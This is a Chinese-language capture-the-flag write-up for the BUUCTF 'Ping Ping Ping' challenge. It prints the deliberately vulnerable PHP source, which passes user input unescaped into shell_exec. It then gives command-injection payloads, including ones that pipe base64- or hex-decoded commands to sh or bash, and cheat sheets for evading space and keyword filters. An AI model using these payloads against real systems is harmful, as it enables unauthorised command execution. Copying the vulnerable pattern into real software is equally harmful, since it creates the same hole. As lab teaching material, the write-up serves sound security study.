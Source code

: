# BUUCTF Ping Ping Ping
- 关键词 命令绕过 
## 题目描述
![78bd2ee0ec54eecac7fe3bec8d8d6b6e.png](../_resources/78bd2ee0ec54eecac7fe3bec8d8d6b6e.png)

## 解题思路
页面提示了ip=xxx，题目又叫ping，所以直接传入参数`ip=127.0.0.1`，果然出现了响应
![0f538ed726c320f00ef543c0f4c9bd76.png](../_resources/0f538ed726c320f00ef543c0f4c9bd76.png)
尝试直接拼接:`ip=127.0.0.1;ls` 成功显示出了文件
![3506a2d65622dda133f1438a39f2a4a4.png](../_resources/3506a2d65622dda133f1438a39f2a4a4.png)
尝试直接cat flag.php
结果显示有过滤空格
![c36d01ee066926ecfc520486478514b8.png](../_resources/c36d01ee066926ecfc520486478514b8.png)
尝试绕过空格的方法
- 附常见的绕过空格的方法
```shell
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```
逐一尝试，发现`$IFS$1`是可以的，但是显示过滤了flag什么的关键词，不妨直接cat index.php看看

显示出来了源码
```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
```

我们可以选择变量拼接的方法绕过
payload为`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

## CTF中常见的命令绕过的姿势
### 命令联合执行
|  连接词   | 释义  |
|  ----  | ----  |
| `;`  | 前面的命令执行完以后，继续执行后面的命令 |
| `\|`  | 管道符，将上一条命令的输出作为下一条命令的参数（显示后面的执行结果） |
| `\|\|`  | 当前面的命令执行出错时（为假）执行后面的命令 |
| `&`  | 将任务置于后台执行 |
| `&&`  | 前面的语句为假则直接出错，后面的也不执行，前面只能为真 |

比如上面的题目也可以使用`|` 进行命令拼接：
![40494a259feb29e4a0168392ec864acd.png](../_resources/40494a259feb29e4a0168392ec864acd.png)

### 关键词的绕过
#### 1、绕过空格过滤的方法
```shell
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```

#### 2、禁用 cat 的方法
```shell
ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以ca\t /fl\ag
```
### 3.内联执行绕过
内联，就是将反引号内命令的输出作为输入执行。
```
?ip=127.0.0.1;cat$IFS$9`ls`

$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字
这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
```
这样就可以直接cat出所有ls列出的文件了

## 本题的多种解法
### 变量拼接
```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

### 内联执行
```
?ip=127.0.0.1;cat$IFS$9`ls
```

### Base64编码
```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
````

## 总结
类似题目的解题方法总结：
```shell
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 

```
